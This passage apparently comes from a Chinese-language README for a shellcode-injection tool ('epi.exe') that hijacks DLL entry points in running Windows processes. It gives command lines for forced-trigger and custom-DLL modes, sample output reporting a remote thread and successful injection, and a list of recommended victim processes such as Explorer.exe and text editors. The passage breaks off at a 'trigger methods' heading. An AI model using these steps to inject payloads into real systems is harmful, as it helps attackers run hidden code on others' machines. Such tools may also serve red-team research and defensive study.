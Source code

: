 #### 2. Threaded 模式（强制触发）

```cmd
# 使用 -f 选项立即触发
build\epi.exe <PID> <shellcode文件> -f

# 示例
build\epi.exe 1234 payload.bin -f

# 输出示例（额外部分）：
# [*] 强制触发 shellcode 执行...
# [+] ExitThread 地址：0x00007FF8B0A15000
# [+] 已创建远程线程（句柄：0x000001AC）
# [*] 线程将调用 ExitThread 并触发 DLL 入口点
#
# [+] EPI 注入成功！
```

#### 3. 自定义目标 DLL

```cmd
# 使用 -d 选项指定目标 DLL
build\epi.exe <PID> <shellcode文件> -d <DLL名称> [-f]

# 示例：劫持 kernel32.dll
build\epi.exe 1234 payload.bin -d kernel32.dll -f

# 常见可选目标 DLL：
# - kernelbase.dll (默认，推荐)
# - kernel32.dll
# - user32.dll (GUI 程序)
# - ntdll.dll (所有进程都加载)
```

## 推荐目标进程

### 最佳目标

1. **Sublime Text / VS Code / Notepad++**（文本编辑器）
   - 经常创建/销毁线程
   - 打开文件对话框即可触发

2. **Explorer.exe**（资源管理器）
   - 持续运行
   - 频繁的用户交互
   - 后台线程活跃

3. **notepad.exe**（记事本）
   - 简单易用
   - 打开文件即可触发

### 触发方法
